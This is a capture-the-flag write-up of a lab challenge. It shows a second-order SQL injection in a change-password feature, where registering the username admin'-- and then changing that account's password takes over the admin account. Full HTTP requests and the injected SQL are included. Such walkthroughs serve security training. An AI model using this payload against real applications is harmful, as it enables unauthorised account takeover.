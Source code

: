 # Challenge 10 - Vulnerable Startup: Change Password

> For this challenge, the vulnerability on the note page has been fixed. A new change password function has been added to the application, so the users can now change their password by navigating to the Profile page. The new function is vulnerable to SQL injection because the UPDATE statement concatenates the username directly into the SQL query. The goal here is to exploit the vulnerable function to gain access to the admin's account.

It seems the description of this challenge has done much of the heavy lifting by indicating that the SQL injection vulnerability is in the `UPDATE` statement of the change password functionality of the Profile page in the `username` parameter. Create an account and navigate to the Profile page. Save the request made to create the account, as it will probably be useful later.

```http
POST /challenge5/signup HTTP/1.1
Host: 10.10.141.250:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: http://10.10.141.250:5000
DNT: 1
Connection: close
Referer: http://10.10.141.250:5000/challenge5/signup
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

username=tgihf&password=pass
```

The Profile page is a simple change password form with parameters `current-password`, `password`, and `password2` that submits a `POST` request to `/challenge5/changepwd`.

![[Pasted image 20210807174654](Pasted%20image%2020210807174654.png)

The application probably goes through a process like this in changing the password:
1. Check if `password` and `password2` are equivalent. If so, proceed
2. Change the user's password if `current-password` is the password of the currently logged on user. This can be achieved with the following SQL query:

```sql
UPDATE users SET password = '$PASSWORD' WHERE username = '$USERNAME' AND password = '$CURRENT-PASSWORD'
```

The challenge description revealed that this statement is injectable via the `username` parameter. Confirm this by registering a user with the username `'` and password `pass`. Attempt to change the password to `not-pass`. If the change fails, it is likely because the injected username broke the syntax of the `UPDATE` statement. This will confirm the presence of the SQL injection vulnerability.

Regster the user.

```http
POST /challenge5/signup HTTP/1.1
Host: 10.10.141.250:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: http://10.10.141.250:5000
DNT: 1
Connection: close
Referer: http://10.10.141.250:5000/challenge5/signup
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

username='&password=pass
```

Log in and attempt to change the password to `not-pass`.

```http
POST /challenge5/changepwd HTTP/1.1
Host: 10.10.141.250:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
Origin: http://10.10.141.250:5000
DNT: 1
Connection: close
Referer: http://10.10.141.250:5000/challenge5/changepwd
Cookie: session=.eJyrVkrOSMzJSc1LTzWNLy1OLYrPTFGyMtdBF85LzE1VslJSV6oFAM2iEXw.YQ8CMQ.7qrdg9QZdsAHs7aP1M4DGWqLY7g
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

current-password=pass&password=not-pass&password2=not-pass
```

The request fails, confirming the presence of the SQL injection vulnerability.

![Pasted image 20210807180510](Pasted%20image%2020210807180510.png)

The goal of this challenge is to log in as the `admin` user. It may be possible to change `admin`'s password directly by exploiting this vulnerability. The injection `admin'--` would cause the following SQL query to be executed on the backend:

```sql
UPDATE users SET password = '$PASSWORD' WHERE username = 'admin'--' AND password = '$CURRENT-PASSWORD'
```

This directly changes `admin`'s password without having to know their current password. Register an account with the username `admin'--`.

```http
POST /challenge5/signup HTTP/1.1
Host: 10.10.141.250:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: http://10.10.141.250:5000
DNT: 1
Connection: close
Referer: http://10.10.141.250:5000/challenge5/signup
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

username=admin'--&password=pass
```

Login and change their password to `pass`.

```http
POST /challenge5/changepwd HTTP/1.1
Host: 10.10.141.250:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 50
Origin: http://10.10.141.250:5000
DNT: 1
Connection: close
Referer: http://10.10.141.250:5000/challenge5/changepwd
Cookie: session=.eJyrVkrOSMzJSc1LTzWNLy1OLYrPTFGystBBF85LzE1VslJKTMnNzFPX1VWqBQBUgBPg.YQ8Efw._gTOzKAyJ8E41N2U6SkeseKWAhU
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

current-password=pass&password=pass&password2=pass
```

Login with the credentials `admin`:`pass` and obtain the flag.